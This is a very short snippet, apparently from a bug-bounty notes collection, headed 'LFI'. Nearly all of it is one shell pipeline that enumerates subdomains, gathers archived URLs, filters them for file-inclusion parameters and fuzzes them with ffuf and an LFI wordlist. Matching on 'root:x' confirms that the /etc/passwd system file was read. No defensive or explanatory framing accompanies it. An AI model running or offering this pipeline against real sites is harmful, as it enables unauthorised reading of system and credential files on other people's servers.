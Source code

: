 # LFI-


subfinder -d example.com -all -q | waybackurls | gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done

